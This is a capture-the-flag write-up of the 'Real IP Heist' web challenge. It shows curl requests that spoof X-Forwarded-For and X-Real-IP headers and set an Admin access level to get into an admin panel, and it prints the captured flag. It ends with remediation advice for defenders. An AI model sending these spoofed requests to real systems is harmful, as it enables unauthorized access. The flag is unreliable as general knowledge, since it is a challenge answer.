 ```yaml
---
title: "🔓 Real IP Heist"
layout: post
collection: writeups
permalink: /writeups/safaricom-real-ip-heist/
date: 2025-10-04
categories: [Safaricom PwnZone]
tags: [web, headers, pwnzone]
image: /assets/images/writeups/real-ip-heist/safaricom-real-ip-heist.jpg
thumbnail: /assets/images/writeups/real-ip-heist/safaricom-real-ip-heist.jpg
icon: fas fa-network-wired
excerpt: "Abused trust in X-Forwarded-For / X-Real-IP headers to escalate access and retrieve the flag."
description: "Exploit of server trusting client-supplied X-Forwarded-For/X-Real-IP headers, obtaining Admin access and the flag."
---
```


![Real IP Heist Screenshot](/assets/images/writeups/real-ip-heist/safaricom-real-ip-heist.jpg)

# Real IP Heist — Challenge Writeup

## Challenge Overview

* **Challenge Name:** Real IP Heist
* **Target URL:** `http://54.72.82.22:8085`
* **Description:** "Ever wonder what your network really reveals about you. Not everything is as anonymous as it seems..."

---

## Step-by-Step Solution

### 1. Initial Reconnaissance

Visited the target URL in a browser. The page displayed a simple login form with:

* Username (free text input)
* Access Level (dropdown with only "User" available)
* Login button

![Login Form Screenshot](/assets/images/writeups/real-ip-heist/TargetIP.png)

### 2. Analyzing Client-Side Restrictions

Inspected the page source and network activity using browser developer tools. Discovered that client-side JavaScript was setting a fixed `X-Forwarded-For` header, limiting users to "User" access level regardless of input.

![Page Source Screenshot](/assets/images/writeups/real-ip-heist/View-Page-Source.png)

![Source Code Screenshot](/assets/images/writeups/real-ip-heist/Source-code.png)

### 3. Bypassing Client-Side Restrictions

The server appeared to trust HTTP headers for IP verification. I bypassed client-side restrictions using `curl` to send custom requests with spoofed headers.

### 4. First curl Request — Gaining Admin Access

Crafted a `curl` command to:

* Send a POST request to the login endpoint
* Override the `X-Forwarded-For` header to simulate an internal IP (`127.0.0.1`)
* Set the `access_level` parameter to `Admin` directly in POST data

```bash
curl -X POST 'http://54.72.82.22:8085/' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'X-Forwarded-For: 127.0.0.1' \
  --data 'username=attacker&access_level=Admin'
```

**Response:**

```html
<h2>Hello, attacker</h2>
<!-- real admin use internal tools -->
<p>Access level: Admin</p>
<p><a href="/admin">Go to admin panel</a></p>
```

### 5. Second curl Request — Accessing Admin Panel

The response revealed an `/admin` endpoint. Sent another request with both spoofed headers:

```bash
curl -X GET 'http://54.72.82.22:8085/admin' \
  -H 'X-Forwarded-For: 127.0.0.1' \
  -H 'X-Real-IP: 127.0.0.1'
```

**Response:**

```html
<h3>Welcome, admin!</h3>
<p>Flag: safctf{c0f1ec1fccb2de4a03031037251f21a7}</p>
```

![Page Source Screenshot](/assets/images/writeups/real-ip-heist/Curl.png)

## Vulnerability Analysis

**Critical Security Flaw:** The application trusted client-supplied headers for authentication decisions.

**Specific Issues:**

* Server used `X-Forwarded-For` and `X-Real-IP` headers to verify internal/trusted IPs.
* Spoofing headers to `127.0.0.1` bypassed access controls.
* `access_level` parameter was vulnerable to direct manipulation.
* Client-side restrictions provided a false sense of security.

## Flag

```
safctf{c0f1ec1fccb2de4a03031037251f21a7}
```

![Page Source Screenshot](/assets/images/writeups/real-ip-heist/Flag.png)

## Key Takeaways

* Never trust client-supplied headers for security decisions.
* Client-side restrictions are easily bypassed and should not be relied upon for access control.
* Always validate authentication and authorization on the server side.
* IP-based authentication can be vulnerable to header injection attacks.
* Security through obscurity (hidden admin endpoints) is not effective protection.

## Remediation Recommendations (brief)

1. Do not rely on `X-Forwarded-For` or other client-controllable headers for trust decisions. Implement server-side checks using trusted sources (e.g., internal firewall, verified reverse proxy that strips/sets these headers).
2. Validate and enforce `access_level` server-side; do not accept privilege escalation via POST parameters.
3. Implement proper authentication/authorization controls (session tokens, role checks) that cannot be manipulated from the client.
4. Harden server by ensuring only trusted proxies can set forwarding headers and by validating the source ASN/IP ranges where appropriate.
5. Log and monitor suspicious header manipulations and failed attempts.

---

## Notes

* All testing described above was performed in the context of the CTF challenge as provided by the target URL.

